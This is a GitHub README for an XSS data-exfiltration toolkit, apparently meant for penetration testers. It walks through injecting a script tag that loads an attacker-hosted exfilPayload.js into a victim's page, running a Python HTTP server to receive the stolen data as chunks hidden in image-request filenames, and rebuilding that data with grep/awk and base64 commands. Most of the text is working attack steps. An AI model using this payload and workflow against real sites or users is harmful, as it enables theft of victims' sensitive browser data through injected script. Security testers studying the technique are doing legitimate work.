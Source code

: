 # XSS-Data-Exfil
Sample code for exfiltrating data through an XSS vulnerability. XSS Payload retrieves sensitive data in victim's browser, then breaks it into chunks. Sends those chunks out as image requests (data in image filename). Example commands and python script to put the original data back together. 

Blog post with screenshots and walkthrough here:
https://www.trustedsec.com/blog/simple-data-exfiltration-through-xss/


Basically you tailor the exfilPayload.js file to grab the sensitive data your victim has access to. 

Then in you pull that JavaScript file into the browswer by doing a script include in the XSS vulnerability:
<script src="ht<span>tp://127.0.0.1/exfilPayload.js"></script>

Start up a python HTTP server in the directory whwere exfilPayload.js is:
python -m SimpleHTTPServer 80

The exfilePayload.js will send to that same server the chunks of the data being exfiltrated. 

Copy those requests into a text file, clean it up with:
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt

Then use the python script in this repo.

Then you can put the chunks back together finally with:
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

The blog post should make it clearer. 

@hoodoer
